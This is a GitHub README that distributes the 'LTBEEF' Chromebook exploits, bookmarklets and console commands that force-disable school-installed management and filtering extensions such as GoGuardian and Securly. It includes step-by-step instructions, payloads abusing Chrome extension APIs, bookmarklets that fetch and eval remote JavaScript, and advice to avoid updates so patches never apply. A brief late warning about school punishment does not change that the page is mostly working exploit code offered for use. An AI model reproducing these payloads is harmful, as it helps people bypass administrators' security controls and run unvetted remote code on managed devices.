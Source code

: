# Extension remover

## ATTENTION ALL SYS ADMINS!!! 

Hello, I am Echo and I created this repo in order to give exploits for the masses and to prove one thing, chromebooks are literal trash, and a poor excuse for a computer. They are full of exploits, you might think you blocked/patched them all but then 3 more pop up. It is a endless game of wack-a-mole. Treat your students to a windows computer, they will thank you. And don't you dare start to think "My school district does not have that kind of money", it most likely does! How much are you paying the blocker companies? Think about that.

## Back to your scheduled programming

![image](https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png)

credit LittleMissNyan for the swag logo

This bookmarklet exploit that can force-disable any extension installed on Google Chrome. Also known as LTBEEF.

**DO NOT UPDATE YOUR CHROMEBOOK! This exploit gets patched relatively quickly, so do not update!** Need help to stop updates? [Click here to learn how!](https://caub.glitch.me/)

If you need any help, please go here: https://github.com/3kh0/ext-remover/discussions



## 106 and higher exploit
1. Bookmark this code 
```js
let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 250);
```

2. Go to tinyurl.com/goofcurly if you have securly, tinyurl.com/goofguardian if you have goguardian, tinurl.com/goofsi for blocksi, tinyurl.com/goofclassroom for securly classroom, and tinyurl.com/goofumbrella. 
3. Once your on the link depending on your blocker, click the button you see, it should open a about:blank tab, then click the bookmarklet and press ok, and all sites should be unblocked. Credit to the SprinksMC#8421 on the Titanium Network Discord.

## Using point blank

Using the [found by bypassi](https://blog.bypassi.com/_/point-blank/) you can disable extensions.

You will need to run bookmarklets and a extension installed from the chrome web store

Steps:

1. Go to chrome://extensions
2. Click any extension that's installed from the webstore, not one of the enterprise installed extensions
3. Scroll down and click "Open in Chrome Web Store"
4. Spam escape before the page loads. it should be a white screen, if it loads into the chrome webstore you have to try again.
5. Run this bookmarklet:
```js
let shim = false;var ids = prompt("extension ids (comma separated)").split(",");setInterval(()=>{ids.forEach((id)=> opener.chrome.developerPrivate.updateExtensionConfiguration({extensionId: id, fileAccess: shim}));shim = !shim;}, 250);
```
6. Insert extension ID into the box

Note, if you close the tab the extensions will come back.

Uses Bypassi's pointblank exploit, Sharp_Jack#4374 made the initial payload, posted to TN kajigs by CoolElectronics#4683

## For v106 and up

![image](https://user-images.githubusercontent.com/58097612/207386423-e6aa2095-d92d-44a8-a3d6-e42066bdf34e.png)

The screenshot below was preformed on 108.0.5359.75 (Official Build) (64-bit) on the stable channel.

This has been tested and does work but has varying levels of success, you will need access to inspect element, more specifically, console.

- Open this URL on your chromebook: `chrome-extension://gndmhdcefbhlchkhipcnnbkcmicncehk/manifest.json` Shortened link: https://tinyurl.com/i-ltbeef
- Open inspect and navigate to the console tab.
- Run the basic LTBEEF code such as
```js
chrome.management.setEnabled('extensionid', false)
```

Replacing `extensionid` with the ID of the extension you want to disable, e.g. the stuff after the = in the URL bar when you click the extension's "details" button in chrome://extensions

Credit to SprinkzMC#8421 (aka Bypassi) for finding this!

![image](https://user-images.githubusercontent.com/58097612/207385046-5a9f6f07-6089-4775-9183-c11bd24ba02c.png)

To re-enable just go to the chrome web listing for the extension and click on the banner.

## For v106 and below

Here are the instructions to using this exploit! There are two ways, using the GUI and using the ids, the GUI method is better.

### Ingot (GUI)

Credit to Nebelung for this, [link to the github](https://github.com/FogNetwork/Ingot)

For easy setup go the the website at https://fognetwork.github.io/Ingot

1. Show your bookmarks bar with `ctrl + shift + b`
2. Right click on the bar and choose `Add Page`
3. Set the name to `Ingot` and the URL to the code below or [here](https://github.com/FogNetwork/Ingot/blob/main/bookmarklet.js)

```js
javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())
```
**If this helped please give me a star!**

![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)

### Using the GUI

Credit to CompactCow#4717 for the amazing UI!

1. Right click on the bar and choose `Add Page`
1. Set the name to `GUI` and the URL to the code below or [here](https://github.com/3kh0/ext-remover/blob/main/gui.js)
```js
javascript:fetch(`https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});
```

3. Visit https://chrome.google.com/webstorex. (This is a 404 page, and that is ok.)
4. Click the bookmark (Make sure you are on the page above!)
5. Use the menu to toggle your extensions!

**If this helped please give me a star!**

![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)

### Using IDs

#### Disabling 

1. Visit chrome://extensions and on the extension you want to disable click on Details
2. Copy the text in the URL after the `?id=`
> For example if you have this URL: `chrome://extensions/?id=echoontop` you would only copy `echoontop`
3.  Go to the file [`bookmark.js`](https://github.com/3kh0/ext-remover/blob/main/bookmark.js) and copy everything and create a new bookmark and use the code you copied as the Page URL
4. Visit https://chrome.google.com/webstorex. (This is a 404 page, and that is ok.)
5. Click the bookmark (Make sure you are on the page above!)
6.  Put the ID you copied into the text box.

You're done! The extension should now be disabled.

**If this helped please give me a star!**

#### Enabling

1. Visit chrome://extensions and on the extension you want to enable click on Details
2. Click View in Chrome Web Store
3. You will see a banner at the top of the page that says This item has been disabled in Chrome. Enable this item
4. Click on Enable this item

You're done! The extension should now be enabled.

**If this helped please give me a star!**

Credit bypassi for finding and making this exploit!

## How does it work
Well, it's pretty basic. It finds extensions and displays them on this page with some toggle switches.

![image](https://yeeteeyt.github.io/exploitbranch.png)

then, it detects when the toggle switch is toggled, and for what extension, then compiles a message to chrome that says "hey, turn this off for me". Chrome, mistaking this for the webstore complies.

![image](https://yeeteeyt.github.io/exploitgrid.png)

<h1><b>NOTE:</b></h1> DO NOT DO THIS IF YOU DON'T KNOW WHAT YOU ARE DOING! I don't recommend anyone do this, but I can't really control your will. What I can do, though, is warn you. Doing ANY of this will violate your school's policy and will possibly get you banned from electronics. This sticks to your record, and you won't get rid of it. Think about it, are you REALLY that desperate?

### Full unenrollment

<img src="https://media.tenor.com/x8v1oNUOmg4AAAAd/rickroll-roll.gif" alt="Rickroll GIFs | Tenor"/>

There are still so many more fun exploits, please [join the TN](https://discord.gg/unblock) or [my discord](https://discord.gg/3kh0)
